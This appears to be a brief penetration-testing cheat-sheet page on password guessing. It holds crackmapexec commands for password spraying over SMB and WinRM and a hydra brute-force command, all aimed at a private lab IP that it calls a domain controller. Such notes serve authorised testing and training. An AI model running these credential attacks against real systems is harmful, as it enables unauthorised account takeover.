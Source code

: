 # Password Guessing



### SMB

**Password spray** a list of usernames against a domain controller.

{% code overflow="wrap" %}
```sh
crackmapexec smb 192.168.219.122 -u ./users.txt -p ./passwords.txt --continue-on-success
```
{% endcode %}

Brute force usernames and passwords:

```sh
hydra -L users.txt -P passwords.txt smb://192.168.219.122
```



### WinRM

Spray passwords against WinRM service on the domain controller:

{% code overflow="wrap" %}
```sh
crackmapexec winrm 192.168.219.122 -u ./users.txt -p ./passwords.txt --continue-on-success
```
{% endcode %}




